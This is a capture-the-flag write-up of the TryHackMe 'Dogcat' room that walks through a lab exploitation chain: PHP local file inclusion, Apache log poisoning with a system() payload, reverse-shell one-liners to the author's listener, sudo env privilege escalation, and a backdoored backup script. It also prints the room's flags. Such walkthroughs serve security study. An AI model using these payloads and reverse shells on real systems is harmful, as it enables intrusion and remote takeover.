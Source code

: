 ```yaml
---
title: "Dogcat - TryHackMe"
author: Ludovic COULON
date: 2020-06-02
hero: ./images/hero.png
excerpt: "Writeup for the Dogcat room on TryHackMe"
---
```


[TryHackMe | Dogcat](https://tryhackme.com/room/dogcat)

<div className="Image__Small">
  <img src="https://i.imgur.com/mj1rbea.png" alt="blog_image" />
</div>

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

**This machine may take a few minutes to fully start up.**

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.121.12
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is flag 1?

I'm going to try some basic LFI

<div className="Image__Medium">
  <img src="https://imgur.com/IeJGwlC.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/UMyhkfJ.png" alt="blog_image" />
</div>

I'm going to try with php filter let's see if this works..

[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)

<div className="Image__Medium">
  <img src="https://imgur.com/FXeOWux.png" alt="blog_image" />
</div>

```bash
php://filter/convert.base64-encode/resource=cat
# Let's decode the base64 to see the result
<img src="cats/<?php echo rand(1, 10); ?>.jpg" />
```

<div className="Image__Medium">
  <img src="https://imgur.com/jF0hO89.png" alt="blog_image" />
</div>

Nice ! We can see the php code let's see if there is something in the directory

```bash
php://filter/convert.base64-encode/resource=./cat/../index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

There we go ! We have the php code let's see if we can do something with it 🤤

So.. There is no way that we can exploit the php code so let's look at the nmap result and we have the apache version, let's see if we can see the log.

```bash
By default, you can find the Apache access log file at the following path:

    /var/log/apache/access. log.
    /var/log/apache2/access. log.
    /etc/httpd/logs/access_log.
```

If we try with this following url

```bash
php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log
```

There will be an error its because the code don't like the ".log" let's correct that 😃

On the php code there is this ternary condition "\$\_GET["ext"]" let's use that at the end

<div className="Image__Medium">
  <img src="https://imgur.com/25dLhcZ.png" alt="blog_image" />
</div>

Nice ! It worked !! 😵

Let's decode the base64 to see the result 😊

```bash
10.9.2.228 - - [02/Jun/2020:20:38:04 +0000] "GET /?view=php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 2890 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Now let's see if we can have an RCE attack 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/gZZJUJR.png" alt="blog_image" />
</div>

And there it is ! If we put "<?php system($_GET['cmd']);?>" on the user-agent we can execute code on the remote server.

Let's get a reverse shell using the same method..

[php | GTFOBins](https://gtfobins.github.io/gtfobins/php/#reverse-shell)

```bash

php -r '$sock=fsockopen("10.9.2.228"),"",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<div className="Image__Small">
  <img src="https://imgur.com/2bjNiUu.png" alt="blog_image" />
</div>

```bash
$ cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

### #2 What is flag 2?

```bash
$ cd ..
$ pwd
/var/www
$ ls
flag2_QMW7JvaY2LvK.txt
html
$ cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
```

### #3 What is flag 3?

```bash
$ sudo -l
Matching Defaults entries for www-data on 17d35d82c239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 17d35d82c239:
    (root) NOPASSWD: /usr/bin/env
```

[https://gtfobins.github.io/gtfobins/env/#sudo](https://gtfobins.github.io/gtfobins/env/#sudo)

```bash
sudo env /bin/sh
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

### #4 What is flag 4?

```bash
find / -type f -name *.sh 2>/dev/null
/opt/backups/backup.sh
/etc/init.d/hwclock.sh
/lib/init/vars.sh
/usr/local/lib/php/build/ltmain.sh
/usr/share/debconf/confmodule.sh
```

```bash
cd /opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's add a reverse shell on the bash script and get hopefully the last flag 🤓

```bash
echo '#!/bin/bash' > backup.sh;echo 'bash -i >& /dev/tcp/10.9.2.228/9002 0>&1' >> backup.sh
```

```bash
➜  ~ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.121.12] 43500
bash: cannot set terminal process group (5464): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4*
cat flag4*
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~#
```


